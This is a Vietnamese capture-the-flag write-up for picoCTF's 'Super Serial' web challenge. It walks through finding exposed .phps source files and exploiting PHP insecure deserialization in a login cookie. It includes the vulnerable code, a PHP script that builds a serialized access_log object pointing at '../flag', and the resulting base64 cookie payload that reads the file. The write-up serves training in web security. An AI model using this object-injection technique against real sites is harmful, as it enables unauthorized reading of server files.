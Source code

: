 # Super Serial

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image328.png?raw=true)

Truy cập trang web:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image329.png?raw=true)

Tôi đã thử chèn các payload để bypass login nhưng không được, tiếp theo tôi thử truy cập `robots.txt`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image330.png?raw=true)

Tôi tìm được path `/admin.phps`. Thử truy cập:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image331.png?raw=true)

Tôi để ý là tại sao lại là `.phps`, thử truy cập `index.phps`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image332.png?raw=true)

Có thể truy cập, tôi tìm thêm được đoạn mã PHP:

    <?php
    require_once("cookie.php");

    if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
            setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
            header("Location: authentication.php");
            die();
        } else {
            $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
    }
    ?>

Tôi tiếp tục phát hiện ra 2 file `cookie.php` và `authentication.php`. Tôi thử truy cập cả 2 file, chỉ có thể truy cập `authentication.php`, còn `cookie.php` khi truy cập sẽ không hiển thị gì. 

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image335.png?raw=true)

Đồng thời, có thể truy cập `cookie.phps` và `authentication.phps`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image333.png?raw=true)

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image334.png?raw=true)

Lỗ hổng đầu tiên tôi tìm kiếm được là ở `cookie.phps`:

    if(isset($_COOKIE["login"])){
        try{
            $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
            $g = $perm->is_guest();
            $a = $perm->is_admin();
        }
        catch(Error $e){
            die("Deserialization error. ".$perm);
        }
    }

Đoạn mã này có lỗ hổng `deserialization` (giải tuần tự hóa):
- Server kiểm tra nếu có cookie `login` được gửi lên từ trình duyệt.
- Nếu có, server sẽ:
    - `URL-decode` nội dung cookie
    - `Base64-decode`
    - `unserialize()` để biến nó thành một đối tượng PHP (dạng gốc ban đầu là một object permissions)
- Sau đó, server sẽ gọi các hàm `$perm->is_guest()` và `$perm->is_admin()` để kiểm tra quyền.

Điểm yếu tồn tại ở đây là:
- Nếu có lỗi khi deserialize, chương trình sẽ rơi vào `catch`:

        catch(Error $e){
        die("Deserialization error. ".$perm);
        }

- Ở đây, `$perm` là object, nhưng được ép thành chuỗi (string) khi in ra => PHP sẽ tự gọi hàm `__toString()` của object:

        function __toString() {
        return $u.$p;
        }

Lỗ hổng tiếp theo tồn tại trong `authentication.phps`:

    class access_log {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

Vai trò của từng hàm:

- `$log_file`: tên file để ghi/đọc log
- `append_to_log()`: ghi log vào file
- `read_log()`: đọc nội dung file log
- `__toString()`: khi object bị ép thành chuỗi, PHP sẽ gọi read_log() => đọc nội dung file và trả về

Mối liên hệ giữa `authentication.phps` và `cookie.phps`:

Trong file `cookie.phps`, nếu có cookie `login`, server sẽ thực hiện:

    $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));

=> Đây là điểm yếu quan trọng: attacker có thể gửi một `object serialize giả mạo` trong cookie, không cần phải là permissions, mà có thể là object bất kỳ – ví dụ: access_log.

Dựa vào hint từ thử thách, flag nằm ở `../flag`. Ý tưởng của tôi là tạo object `access.log` với `$log_file = "../flag"`, nghĩa là tôi sẽ đọc file `../flag` thay vì file `access.log`. 

Tiếp theo tôi sẽ serialize object `access_log` đó, sau đó `base64` + `urlencode` => gửi lên làm cookie `login`.

Khi server deserialize object này:
- Nó không có method `is_guest()` nên sẽ gây ra lỗi
- Rơi vào `catch`, nội dung `../flag` sẽ được in ra màn hình

Để lấy giá trị `serialize + base64 + urlencode` của object `access_log`, tôi thực hiện đoạn code sau:

    <?php

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }
    echo urlencode(base64_encode(serialize(new access_log("../flag"))));
    ?>

Thực thi đoạn code, tôi thu được giá trị: `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Tiếp theo, trên trang `application.php`, tôi sẽ thêm cookie `login` với giá trị là  `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image336.png?raw=true)

=> Tìm được flag



